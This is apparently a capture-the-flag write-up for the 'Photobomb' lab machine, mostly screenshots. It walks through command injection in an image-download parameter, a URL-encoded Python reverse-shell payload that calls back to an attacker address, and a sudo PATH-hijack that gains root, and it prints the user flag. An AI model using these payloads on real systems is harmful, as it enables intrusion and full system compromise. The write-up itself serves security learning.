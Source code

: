 # Photobomb
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's check all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187399-28b9242d-ad0b-4fb0-a255-eb0e7fe46ab4.png)


2. Based from the output, it seems the machine is running a web application.
3. So let's open the webapp.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187862-a8c8ee89-b456-4a0f-b1e8-43125353176c.png)


4. Let's click this:

![image](https://user-images.githubusercontent.com/70703371/211187884-27fe79c0-97d4-49d5-a55e-2db4a2b69d93.png)


> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187889-bde4bf7a-a15d-48ae-b340-7de1102c675f.png)


5. Well we don't have any creds, let's check the page source.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187961-98e9ad44-061e-4e4a-8178-48a0d3539c74.png)


6. Let's check the `.js` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187975-b432a7ef-7a85-4c03-b159-f511c4b6ec43.png)


![image](https://user-images.githubusercontent.com/70703371/211187993-b6eb2ef8-7633-4800-b00e-3154f28bb366.png)



7. Got a hint there, open the link then.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188002-03f41d74-a975-4068-b9de-a3ac4f030445.png)


![image](https://user-images.githubusercontent.com/70703371/211188016-93639302-051f-45b5-a030-7d96ee78947e.png)


8. It seems we can downlaod any image we click here.

![image](https://user-images.githubusercontent.com/70703371/211188145-a76d347c-4916-4e46-8bbb-cf96c3c260ea.png)


9. Hence, let's see the download request using burpsuite and send it to repeater.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188308-051c41d0-21c5-47e5-bb41-52437ead0a37.png)


10. To check whether it's vulnerable to command injection, let's add `;id` behind the value of filetype parameter.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188356-5eefb301-754f-4bc2-8dd4-e80620f0bf76.png)


![image](https://user-images.githubusercontent.com/70703371/211241745-356fd100-fcb1-4ea2-891d-f6f6d8c43e81.png)


11. Now let's try to inject command for reverse shell. I used this command from `hacktools`.

```
python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.12%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)''
```

12. Now set a listeners for port 443. Then paste the payload behind the `jpg;`, next click send.

![image](https://user-images.githubusercontent.com/70703371/211243510-3cb7e988-161f-4f81-8184-24d7d9842058.png)


![image](https://user-images.githubusercontent.com/70703371/211243792-e296f709-2bd1-4743-881d-213ad1ec7305.png)


![image](https://user-images.githubusercontent.com/70703371/211244032-3223424d-4582-450a-ad40-524540bad572.png)


13. Now press `ctrl-d`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244049-24cc8e99-cc1c-4404-bccf-8f42ea07a278.png)


14. Let's find all the flags!


![image](https://user-images.githubusercontent.com/70703371/211244076-a9c1028b-ae19-4ad9-a1ac-b8dc7b34db11.png)


![image](https://user-images.githubusercontent.com/70703371/211244143-9a6c5ae9-9237-4c8f-9811-b55915f99cba.png)


15. Got the user flag!

## USER FLAG


```
e89b54a9041e03ea2ea5148f38d1413d
```

16. Then go for the root now.

![image](https://user-images.githubusercontent.com/70703371/211244239-4fe105cb-6da1-4f5d-bb8e-eb29d0ca6cfa.png)


17. Since we're not root, gotta find a way.
18. Find a bash script at the `opt` directory.

![image](https://user-images.githubusercontent.com/70703371/211244351-2be543e5-599f-4d60-a6c8-4e94345b2a22.png)


19. Actually i'm stucked here, so i did a small outsource about this challenge and found out that we have to run this command in order to get the root mode:

```
sudo -l # check our available command
echo bash > find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244753-c2b12678-a38d-4095-814d-7233d2824785.png)








